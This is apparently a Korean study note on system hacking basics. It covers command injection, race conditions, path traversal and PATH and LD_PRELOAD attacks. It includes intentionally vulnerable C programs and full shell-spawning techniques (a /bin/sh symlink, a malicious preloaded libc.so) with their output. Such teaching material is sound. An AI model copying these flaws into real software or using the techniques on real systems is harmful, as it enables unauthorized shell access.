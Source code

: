 # System Hacking Fundemental

## logical bugs

### logical bugs

코드에 오류는 없지만 논리적인 오류로 인해 정상적으로 작동하지 않는 경우

### 커멘드 인젝션

검증되지 않은 공격자의 입력을 쉘 커맨드/쿼리의 일부로 처리해 실행 흐름을 변경

명령어 바인딩
```bash
$ : 쉘 환경 변수
A && B : A 실행되면 B 실행
A || B : A 안되면 B 실행
A; B : A 하고 B 실행
```

```c
// gcc -o cmdi cmdi.c
#include <stdlib.h>
#include <stdio.h>
int main()
{
    char ip[36];
    char cmd[256] = "ping -c 2 "; 
	
    printf("Alive Checker\n");
    printf("IP: ");
    read(0, ip, sizeof(ip)-1);
    printf("IP Check: %s",ip);
    strcat(cmd, ip);
    system(cmd);
    return 0;
}
```

### Race Condition

프로세스 혹은 쓰레드 간 자원 관리 실수로 발생하는 상태

서로 다른 쓰레드에서 뮤텍스가 걸려있지 않아 공유 메모리에 접근하는 경우

쓰레드 간 공유 자원을 적절히 동기화하지 않았을 때

```c
// gcc -o race2 race2.c -fno-stack-protector -lpthread -m32
#include <pthread.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
int len;
void giveshell() {
    system("/bin/sh");
}
void * t_function() {
    int i = 0;
    while (i < 10000000) {
        len++;
        i++;
        sleep(1);
    }
}
int main() {
    char buf[4];
    int gogo;
    int idx;
    pthread_t p_thread;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    while (1) {
        printf("1. thread create\n");
        printf("2. read buffer\n");
        printf("> ");
        scanf("%d", &idx);
        switch (idx) {
        case 1:
            pthread_create( &p_thread, NULL, t_function, (void * ) NULL);
            break;
        case 2:
            printf("len: ");
            scanf("%d", &len);
            if(len > sizeof(buf)) {
                exit(0);
            }
            sleep(4);
            printf("Data: ");
            read(0, buf, len);
            printf("Len: %d\n", len);
            printf("buf: %s\n", buf);
            break;
        case 3:
            if (gogo == 0x41414141) {
                giveshell();
            }
        }
    }
    return 0;
}
```

> 뮤텍스 : 자원에 대한 접근을 동기화하기 위해 사용되는 상호배제 기술, Locking 메커니즘으로 하나의 쓰레드만이 동일한 시점에 뮤텍스를 얻어 임계영역에 접근, 해당 쓰레드만이 임계영역에서 나갈때 뮤텍스를 해제
> 세마포어 : 뮤텍스와 마찬가지의 기술, Signaling 메커니즘으로 락을 걸지 않은 다른 쓰레드도 Signal을 보내서 락을 해제할 수 있음
> 뮤텍스는 얻은 쓰레드가 직접 다 쓰고 나갈때 해제, 세마포어는 다른 쓰레드도 시그널을 보내서 해제 요청

### Path Traversal

프로그래머가 가정한 디렉토리를 벗어나 외부에 존재하는 파일에 접근할 수 있는 취약점

```c
_traversal.c
// gcc -o path_traversal path_traversal.c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main()
{
	char path[256] = "/tmp/";
	char file_buf[10240];
	char filename[256] = {0,};
	char cmd[256] = {0,};
	
	int len;
	FILE *fp;
	printf("Filename: ");
	fflush(stdout);
	len = read(0, filename, sizeof(filename)-1);
	filename[len-1] = '\0';
	strncat(path, filename, sizeof(path)-1);
	fp = fopen(path, "r");
	if(!fp) {
		return -1;
	}
	fread(file_buf, 1, sizeof(file_buf), fp);
	printf("%s\n", file_buf);
	fclose(fp);
	return 0;
}
```

### 환경변수 공격

환경변수에 등록된 경로를 활용

$ export
$ export PATH="..."

심볼릭 링크와 결합하면

```c
#include <stdlib.h>
#include <unistd.h>
int main()
{
    printf("Screen Cleaner\n");
    system("clear");
         
    return 0;
}
```

```bash
$ ln -s /bin/sh ./clear
$ export PATH=""
$ ./exploit
```

=> /bin/sh의 심볼릭 링크가 현재 디렉토리에 clear라는 이름으로 생성됨
=> 환경변수를 모두 지우고
=> 프로그램을 실행하면
=> clear 명령어가 현재 디렉토리 내에서 실행(원래 같으면 환경변수 등록이 되어있어 정상적인 clear 명령이 실행되었겠지만)
=> clear에 연결되어 있는 /bin/sh이 실행
=> 쉘 획득

> 심볼릭 링크 : 윈도우에서 바로가기(ln -s 원본 ./링크, rm 링크)

LD_PRELOAD 환경변수 : 로더가 프로세스에 로드할 라이브러리 파일을 저장 => 프로그램에서 특정 함수를 호출하면 해당 환경변수에 등록된 라이브러리 파일을 먼저 참조하여 호출된 함수를 찾음

LD_PRELOAD에 원하는 라이브러리 파일을 libc.so 이름으로 전달하면 해당 파일을 모든 파일 실행시 참조하게 됨

```c
// gcc -o libc.so libc.c -fPIC -shared
#include <stdlib.h>
void read() {
	execve("/bin/sh", 0, 0);
}
```

```bash
$ export LD_PRELOAD="./libc.so"
$ ./environ2
Data:# id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
$ strace -if ./environ2
[00007ffff78d7777] execve("./environ2", ["./environ2"], [/* 20 vars */]) = 0
...
[00007ffff7df22a7] open("./libc.so", O_RDONLY|O_CLOEXEC) = 3
...
[00007ffff79022c0] write(1, "Data:", 5Data:) = 5
[00007ffff78d7777] execve("/bin/sh", NULL, NULL) = 0
...
```

=> 원래 있는 libc.so 파일이 아닌 새로 생성한 libc.so 파일을 참조하여 실행

> libc.so => /lib 내 존재, C 표준 라이브러리